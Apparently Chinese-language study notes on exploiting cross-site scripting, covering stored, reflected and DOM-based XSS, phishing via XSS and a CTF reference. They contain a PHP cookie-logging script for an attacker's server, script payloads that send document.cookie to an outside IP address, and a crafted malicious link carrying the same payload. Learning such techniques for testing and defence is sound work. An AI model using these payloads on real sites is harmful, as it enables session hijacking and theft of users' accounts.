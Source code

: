 - **盗取cookie:**

    - cookie的一些常用属性: Domain,Expires,HttpOnly(用于避免Cookie被Javascript访问),Name,Path,Value,Secure.

    - 当HttpOnly未设置时(有些网站会设置,有些不会,像知乎就没设置),js获取cookie代码`document.cookie`

    - 通过http请求携带cookie给我们:  

        - vps上设置php脚本或者利用nc开个端口监听就行

            ```php
            <?php
            $cookie = $_GET['cookie'];
            $log = fopen("cookie.txt", "a");
            fwrite($log, $cookie . "\n");
            fclose($log);
            ?>
            ```

        - payload

            ```html
            <script>document.location="http://172.26.31.208/?cookie="+document.cookie</script>
            
            <script>new Image().src="http://172.26.31.208/?cookie="+document.cookie</script>
            
            ```


- 利用Ajax技术进行恶意操作:

    - 示例：赣网杯web4

- 进行端口扫描
- 获取客户端ip地址

### 反射型XSS的利用:

- 反射型xss需要自己构造恶意链接,或者恶意网页,具体payload和存储型xss一样。
- 盗取cookie：
    - 当出现漏洞的输入可以通过url输入时，比如一个get请求。
        - 即我们构造的payload也会显示在url上面，直接构造一个`http://xxx.com/?name=<script>document.location="http://172.26.31.208/?cookie="+document.cookie</script>`payload经过url编码后发送该url给用户。
        - 当用户点击该恶意链接，就会将cookie发送至172.26.32.208这台主机了。
    - **当输入无法通过url输入时，比如post请求。**
        - 需要自己构造一个恶意网页，里面构造了一个post表单，action的ur填写的是有漏洞的网站，所以这个表单的数据会发送到有漏洞的服务器（因为表单是可以跨域的）。然后将该恶意网页的url发送给用户。
- xss网络钓鱼:
    - 传统的钓鱼攻击是通过复制目标网站，然后发送该网站域名是用户来进行交互，但是这种域名不是和原网站一样的，很容易就被发现。而结合xss之后，会使得钓鱼的欺骗性大大提升。
    - 传统的网络钓鱼示例：

### DOM型XSS的利用:

- Dom Xss 相比反射型 XSS，脑袋需要多思考一层。 也就是说， 我们关注的不仅是【输出】了什么，还要了解这个页面里，【javascript】拿这个【输出】干了什么。 

### XSS平台或者xss利用工具
